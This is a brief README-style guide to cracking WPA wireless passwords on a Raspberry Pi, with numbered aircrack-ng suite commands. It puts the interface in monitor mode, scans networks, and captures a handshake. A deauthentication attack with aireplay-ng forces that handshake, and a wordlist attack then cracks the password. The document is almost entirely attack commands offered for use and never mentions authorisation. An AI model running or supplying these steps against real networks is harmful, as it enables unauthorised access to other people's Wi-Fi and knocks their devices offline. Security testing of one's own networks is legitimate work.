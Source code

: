 # TL;DR

> See guide here: https://www.thepolyglotdeveloper.com/2018/06/crack-wireless-passwords-raspberry-pi-aircrack/

1. First, identify attached network devices on the Pi:
    ```sh
    $ sudo airmon-ng
    ```
2. Pick the correct network device (should be the built-in one, probably `wlan0`.
3. Start the network device in monitoring mode:
    ```sh
    $ airmon-ng start wlan0
    ```
4. A new network interface should then be created: `wlan0mon`
5. Scan for nearby networks:
    ```sh
    $ airodump-ng wlan0mon
    ```
6. If the above command doesn't run or the BSSID values are not accurate, you may need to update the IEEE OUI file:
    ```sh
    $ airodump-ng-oui-update
    ```
7. Start monitoring data for a particular network and wait for a WPA handshake, note the BSSID and channel values from the scanned results:
    ```sh
    $ airodump-ng --bssid XX:XX:XX:XX:XX --channel X --write data wlan0mon
    ```
8. Wait for a WPA handshake to appear in the upper corner of the Terminal, run the following in a separate Terminal session to speed things up:
    ```sh
    $ aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX wlan0mon
    ```
9. Once a WPA handshake appears in the `airodump-ng` process, terminate the process (as well as the `aireplay-ng` one if applicable)
10. Note that some files are saved in the current working directory
11. Begin cracking the password, ensure you have a word list to use:
    ```sh
    $ aircrack-ng data-01.cap -w ./<word_list.txt>
    ```
